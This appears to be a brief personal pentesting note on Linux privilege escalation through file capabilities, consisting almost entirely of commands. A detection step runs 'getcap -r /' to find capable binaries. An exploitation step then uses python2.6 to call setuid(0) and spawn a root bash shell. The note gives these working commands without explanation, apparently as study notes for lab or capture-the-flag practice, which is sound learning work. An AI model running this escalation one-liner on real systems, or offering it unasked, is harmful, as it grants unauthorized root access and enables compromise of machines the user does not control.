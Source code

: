 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Detection
```bash - target
getcap -r / 2>/dev/null
```

![[Pasted image 20221115135636.png]]

```bash - target
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
